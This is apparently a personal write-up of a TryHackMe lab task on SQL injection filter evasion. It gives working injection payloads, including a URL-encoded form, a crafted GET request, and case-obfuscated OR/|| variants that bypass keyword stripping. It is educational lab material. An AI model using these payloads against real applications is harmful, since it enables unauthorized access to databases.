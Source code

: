 # TryHackMe Advanced SQL Injection

{% embed url="https://tryhackme.com/room/advancedsqlinjection" %}



### Task 4: Filter Evasion Techniques

Given the simple SQL query performed on the server:

```sql
SELECT * FROM books WHERE book_name = '[book_name]'
```

We can attempt to trick the system into providing us more information, by injecting the following payload:

```sql
' OR 1=1 --
```

The following code snippet displays a simple SQLi prevention mechanism where the application simply removes a few important keywords:

<figure><img src="../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Thus, this causes the final SQL command to not work, as the `OR` keyword will be removed. However, it can be easily bypassed by methods such as URL encoding the payload, or obfuscating the keywords.&#x20;



**URL encode**

We can URL encode the following payload using the [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)) tool:

```sql
' || 1=1 --+
```

* `'`: Closes the current value
* `||`: Substitute value for OR
* `1=1`: Always true
* `--`: Comment in SQL, forcing the database to ignore the rest of the query
* `+`: Adds a space after the comment to ensure that it is properly terminated



The URL encoded format is as follows:

```sql
'%20%7C%7C%201=1%20--+
```

To prevent any further issues with the formatting, we can analyze the HTTP request made for the query, and directly insert the payload instead. In this example, a GET request to `/search_books.php?book_name=<payload>` is made for each request.

Thus, we can send a GET request to `/search_books.php?book_name=%27%20%7C%7C%201=1%20--+` to retrieve a list of all books in the table.



**Obfuscating the keywords**

Obfuscation of keywords involves changing around the capitalization of the keywords:

Eg.&#x20;

`OR` -> `oR`, `Or`&#x20;

`OR` -> `||`



The following presents a few payloads we can use to bypass the filter mechanism:

1. `' Or '1=1` -> `SELECT * FROM books WHERE book_name = '' Or '1=1'`

<figure><img src="../../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

2. `' Or 1=1 oR '` -> `SELECT * FROM books WHERE book_name = '' Or 1=1 oR ''`&#x20;
3. `' Or 1=1--` -> `SELECT * FROM books WHERE book_name = '' Or 1=1-- '`&#x20;
   * Take note of the space after the comment (`--`)
4. `' || '1=1`-> `SELECT * FROM books WHERE book_name = '' || '1=1'`
   * Replacing `OR` with `||` works too

